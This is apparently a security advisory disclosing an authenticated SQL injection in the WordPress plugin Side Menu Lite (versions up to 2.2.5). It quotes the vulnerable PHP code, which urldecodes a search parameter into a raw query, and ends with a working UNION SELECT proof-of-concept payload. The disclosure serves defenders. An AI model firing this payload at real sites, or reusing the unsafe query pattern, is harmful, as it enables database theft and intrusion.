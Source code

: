 # Side Menu Lite <= 2.2.5 - Authenticated SQL Injection
## Description
    The function get_search() of plugin Side Menu Lite urldecode the user's input data, therefor leading a SQL Injection issue.  
## Affects Plugins
    Side Menu Lite <= 2.2.5 (the latest version at this time)
    https://wordpress.org/plugins/side-menu-lite/
## Author
    pang0lin@webray.com.cn inc 
## Detail
    The issue occured in file \plugins\side-menu-lite\admin\partials\class-list-table.php. The function  get_search() urldecode user's input parameter s.
```
	public function get_search() {
		return ! empty( $_POST['s'] ) ? urldecode( trim( $_POST['s'] ) ) : false;
	}
```
  And it is used in function table_data().
```
	private function table_data() {
		global $wpdb;
		$data   = array();
		$paged  = $this->get_paged();
		$offset = $this->per_page * ( $paged - 1 );
		$search = $this->get_search();

		$table = $this->data;


		if ( ! $search || empty( $search ) ) {
			$result = $wpdb->get_results( "SELECT * FROM " . $table . " order by id desc" );
		} elseif ( is_numeric( $search ) ) {
			$result = $wpdb->get_results( "SELECT * FROM " . $table . " WHERE id=" . $search );
		} else {
			$result = $wpdb->get_results( "SELECT * FROM " . $table . " WHERE title='" . $search
			                              . "' order by id desc" );
		}
    ...
```
  We can see that the variable $search is finnally goes into the SQL query which result the SQL injection.
## Proof of Concept
http://192.168.65.26/wp/wp-admin/admin.php?page=side-menu-lite&tab=list
POST:
s=aaaa%2527 union select 1,user(),3 -- a

![blockchain](https://github.com/pang0lin/CVEproject/blob/main/imgs/wordpress_side-menu-lite_sqli.png "Wordpress plugin side-menu-lite sqli")
